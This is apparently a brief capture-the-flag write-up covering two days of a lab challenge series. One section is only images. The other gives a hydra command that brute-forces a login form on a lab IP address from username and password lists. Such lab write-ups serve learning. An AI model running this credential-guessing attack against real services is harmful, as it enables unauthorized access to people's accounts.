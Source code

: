 # Not including the days with copy paste solutions

## Day 2

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4c531c44-e8db-4bd0-9386-69eaf47d95a1)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/55a7560a-da16-4b21-a40d-3c7139abce43)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/df85fff5-553f-4b1f-ab72-42da868f0957)

## Day 4
Instead of using their wfuzz wordlist, I tried writing my own payload with hydra:

``` hydra -L usernames.txt  -P passwords.txt 10.10.229.119 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials" -V -f ```
